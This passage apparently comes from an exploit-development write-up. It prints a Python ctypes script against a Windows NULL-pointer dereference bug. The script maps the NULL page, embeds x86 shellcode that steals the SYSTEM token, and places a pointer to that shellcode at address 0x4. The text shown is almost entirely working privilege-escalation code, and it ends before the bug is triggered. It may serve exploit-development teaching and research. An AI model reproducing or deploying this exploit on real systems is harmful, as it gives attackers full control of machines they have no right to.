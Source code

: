So at this point, our final exploit looks like this:
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *
import sys

kernel32 = windll.kernel32
ntdll = windll.ntdll
GetCurrentProcess = windll.kernel32.GetCurrentProcess

def allocation():

    print("[*] Mapping the NULL page (4096 bytes)...")
    result = ntdll.NtAllocateVirtualMemory(
        GetCurrentProcess(),
        pointer(c_void_p(1)),
        0,
        pointer(c_ulong(4096)),
        0x3000,
        0x40
    )

    if result == 0:
        print("[*] OMG, it actually worked. NULL page mapped.")

    else:
        print("[!] Unable to map NULL page with error: {}".format(str(GetLastError())))
        sys.exit(1)

    shellcode = (
    "\x60"
    "\x64\xA1\x24\x01\x00\x00"
    "\x8B\x40\x50"
    "\x89\xC1"
    "\x8B\x98\xF8\x00\x00\x00"
    "\xBA\x04\x00\x00\x00"
    "\x8B\x80\xB8\x00\x00\x00"
    "\x2D\xB8\x00\x00\x00"
    "\x39\x90\xB4\x00\x00\x00"
    "\x75\xED"
    "\x8B\x90\xF8\x00\x00\x00"
    "\x89\x91\xF8\x00\x00\x00"
    "\x61"
    "\xC3"
)

    buffer = create_string_buffer(shellcode)

    ptr = kernel32.VirtualAlloc(
        c_int(), 
        c_int(len(shellcode)), 
        c_int(0x3000), 
        c_int(0x40)
    )

    memmove(ptr, buffer, len(shellcode))

    print("[*] Allocated RWX shellcode buffer at: {}".format(hex(ptr)))

    print("[*] Moving shellcode buffer pointer to 0x00000004...")
    memmove(0x4, struct.pack("<L",ptr), 0x4)

```